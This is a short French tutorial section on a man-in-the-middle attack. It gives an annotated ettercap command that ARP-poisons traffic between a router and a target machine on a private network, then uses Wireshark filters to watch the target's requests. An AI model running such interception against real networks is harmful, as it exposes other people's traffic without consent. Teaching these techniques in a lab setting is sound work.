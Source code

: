 # 2. "Man in the Middle" (MITM)

```bash
# -T : indique que l'on veut que du texte en sortie (`printf`) (nous utiliserons Wireshark plus tard)
# -S : on ne fait pas de certificat SSL. on ne pourra donc pas intercepter le traffic https mais c'est suffisant pour notre exemple
# -i : interface réseau
# -M :  indique que l'on veut activer l'attaque man in the middle
#       arp:remote // on veut faire une attaque ARP
sudo ettercap -T -S -i wlan0 -M arp:remote /10.0.0.1// /10.0.0.129//
#                                                  ^ routeur   ^^^ la machine qu'on veut attaquer
```

On ouvre **Wireshark** sur l'interface `wlan0`.

Ici, on peut appliquer des filtres tel que `ip.addr == 10.0.0.129`
qui va uniquement afficher les requetes de l'appareil qu'on veut attaquer.

Maintenant on peut voir toutes les requêtes effectuées.
